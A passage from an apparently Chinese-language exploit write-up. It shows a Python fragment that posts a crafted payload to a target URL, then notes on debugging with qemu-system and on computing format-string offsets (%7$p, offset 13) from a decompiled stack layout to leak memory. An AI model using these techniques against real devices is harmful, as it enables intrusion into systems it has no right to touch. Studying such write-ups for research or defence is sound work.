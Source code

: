 ```python
log.info("package_length: "+hex(n))
log.info("strncpy_n_length: "+hex(payload_length))

rq.post(request_url,headers = headers ,data=payload)
```



### 0x40 调试

这里我们应该使用qemu-system去调试或者修改东西来调试

可以看到是小端序，泄漏出来的地址从后往前数

```
假设我们栈情况：
  char s[20]; // [sp+0h] [bp-54h] BYREF //我们要泄漏的东西 长度为0x10
  char s2[20]; // [sp+14h] [bp-40h] BYREF
  char haystack[24]; // [sp+28h] [bp-2Ch] BYREF // uuid 12 =aaa 13 b%7$p 14
  char *format; // [sp+40h] [bp-14h] // format位置 现在测试出为第7个即：%7$p
  char *v5; // [sp+44h] [bp-10h] 
  char *v6; // [sp+48h] [bp-Ch]
  int v7; // [sp+4Ch] [bp-8h]
  
  
  
  我们先泄漏一下haystack来进行测试我们的计算：
  haystack = (0x2c - 0x14) / 4 = 6
  因此format 应该等于 7+6 = 13
```

![image-20220312132719534](images/image-20220312132719534.png)